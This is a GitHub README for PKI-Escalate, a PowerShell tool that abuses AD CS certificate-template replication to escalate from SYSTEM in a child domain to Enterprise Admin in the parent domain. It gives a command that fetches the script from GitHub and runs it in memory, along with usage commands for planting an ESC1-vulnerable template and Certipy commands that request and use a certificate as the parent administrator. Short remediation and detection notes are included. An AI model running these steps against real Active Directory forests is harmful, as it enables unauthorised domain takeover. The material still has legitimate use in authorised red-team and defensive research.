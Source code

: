 # PKI-Escalate

## Overview

PKI-Escalate is a tool designed to abuse the overly permissive relationship between CHILD and PARENT domains in regard to their certificate services containers within Active Directory. Modifications at the CHILD domain are propagated up to the PARENT domain, which can lead to the SYSTEM user in the CHILD domain being able to add a malicious certificate template, vulnerable to [ESC1](https://linl.cok), for a user of their choosing. This then gets replicated up to the PARENT domain, and thus, a certificate can be requested against the PARENT DC as any user, including Enterprise Administrators. 

Initially, I read about this technique on Andy Robbins Spectre Ops post - [From DA to EA with ESC5](https://posts.specterops.io/from-da-to-ea-with-esc5-f9f045aa105c) - which you should definitely check out! It goes into detail about how and why this attack is possible. I've provided a small overview below for more TLDR folks.

- Changes made to the CHILD domain objects related to the certificate service are replicated up to the PARENT domain.
- Certificate Templates are stored in the AD object `CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld`.
- Published Certificate Templates, that is, those that are useable, are stored in the `certificateTemplates` value of the `CN=CAName,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld` container.
- Both of these are children of the `CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld` container. In the CHILD domain, the SYSTEM user has FULL CONTROL of this container. By default, there is no inheritance to the Certificate Templates and Enrollment Services containers, but with FULL CONTROL, we can add this.
- Changes made to this container by the SYSTEM user in the CHILD domain will be replicated up to the PARENT domain!

In essence, this allows us to:
 - Copy an existing, published template and modify it to be vulnerable to ESC1 (Enrolee supplies SAN in the certificate request).
 - Insert this template into the Certificate Templates container, so it is available for publishing.
 - Publish the certificate, allowing an arbitrary user in the CHILD domain to request certificates as any domain user in the parent domain.
 - Escalate from SYSTEM in the CHILD domain to Enterprise Administrator in the PARENT domain 😊

Vadims Podāns ([@Crypt32](https://twitter.com/Crypt32)) then provided the [method](https://www.pkisolutions.com/escalating-from-child-domains-admins-to-enterprise-admins-in-5-minutes-by-abusing-ad-cs-a-follow-up/) to perform the attack in an environment without ADCS installed, which involves installing the ADCS services on the CHILD domain and waiting for it to be replicated up the PARENT.

Both environments have been included for this initial release of the tool, though there are some caveats to be aware of in the [Limitations](https://github.com/heartburn-dev/PKI-Escalate#Limitations) section.

## Installation

PKI-Escalate is provided as a simple PowerShell script which can be imported:

```powershell
Import-Module .\PKI-Escalate.ps1
```

As with most things, it can also be loaded remotely into memory:
```powershell
IEX((New-Object System.Net.WebClient).downloadString('https://raw.githubusercontent.com/heartburn-dev/PKI-Escalate/master/PKI-Escalate.ps1))
```

## Usage Instructions

To escalate the user GANON and add a malicious certificate template called BADBOY:
```powershell
Invoke-Escalation -Username GANON -TemplateName BADBOY 
```

To escalate the user GANON and add a malicious certificate template called BADBOY to a domain without ADCS installed:
```powershell
Invoke-Escalation -Username GANON -TemplateName BADBOY -InstallAdcs -CAName NewCA
```

To remove a template that was installed using the exploit:
```powershell
Clear-Template -TemplateName BADBOY -CAName NewCA
```

Once exploited, consider using either Certipy or Certify to abuse the new template:
```bash
# Check the vulnerable templates - If LDAPs is properly configured then the scheme is not necessary
certipy find -vulnerable -scheme ldap -u ganon -p Password1 -dc-ip 192.168.55.25

# Request a certificate as the administrator user in the parent domain
certipy req -username ganon@chasm.dc01.hyrule.local -ca 'HYRULE-CA' -target HYRULE-ADCS.HYRULE.LOCAL -template BADBOY -upn administrator@HYRULE.LOCAL  -password Password1 -debug

# Authenticate to the parent domain as the administrator
certipy auth -pfx administrator.pfx -dc-ip 192.168.55.5
```

⚠ **NOTE**: When requesting your certificate with Certipy, the `-target` parameter points to the certificate server. This is because it connects via the `ncacn_np:\\HOSTNAME[\pipe\cert]` pipe to request information! ⚠

Please consider clicking on the image below to watch a demonstration video:

[![PKI-Escalate Demonstration - Domain Admin to Enterprise Admin](https://img.youtube.com/vi/XtwKvZ-kZRE/0.jpg)](http://www.youtube.com/watch?v=XtwKvZ-kZRE "PKI-Escalate Demonstration - Domain Admin to Enterprise Admin")

Alternatively, a direct link is:

https://www.youtube.com/watch?v=XtwKvZ-kZRE


## OPSEC Considerations

In terms of remediation, I don't have much information on this attack as I believe this functionality is inherent to the way ADCS works within a forest environment. That is to say, replication up and down is a necessity to allow CA functionality across domains. However, removing full control from the SYSTEM user, or disabling inheritance on the `CN=CAName,CN=Enrollment Services,CN=Public Key Services,CN=Services,CN=Configuration,DC=DomainName,DC=Tld` container may stop a TA from being able to enable the certificate. 

A better use of time may be to concentrate on detection. Certificate Template changes are not everyday things that occur in an Active Directory environment and therefore deletions and additions should be closely monitored.

## Limitations

This tool was tested in three lab environments:

- ADCS installed on a dedicated ADCS machine in the PARENT domain;
- ADCS installed on the PARENT Domain Controller;
- ADCS not installed and performed as part of the script.

These were all Windows Server 2019 machines. Further testing is yet to be conducted on larger environments and different setups. For these, it is recommended to perform the attacks manually if the tool fails to handle an error. Please submit a pull request or issue if you encounter problems and I will endeavour to fix it. 

## Errors

During testing, I noted multiple errors and their corresponding reasons:


The exploit completes, but the resulting certificate cannot be used and returns `"KDC_ERROR_CLIENT_NOT_TRUSTED"`. This generally occurred as the ADCS had been installed recently and there was a time delay between the certificates being able to be used for authentication. Please bear this in mind for testing labs!


Similarly, the error `"KDC_ERR_PADATA_TYPE_NOSUPP"` was encountered, also a byproduct of just a recent install. This, I believe, is due to the PARENT DC not yet enrolling for a certificate that allows smartcard logons.


Both these errors should only occur in environments when you are testing and have recently installed the required services. Just give it a few hours and the certificates should be fine to authenticate with after 😊


## TODO List

- [x] Add the ability to completely remove the template rather than just unpublish
- [ ] Create a CSharp version
- [ ] Create BOF version
- [ ] Add handling for multiple CAs being installed
- [ ] Test on 2012/2016/2022
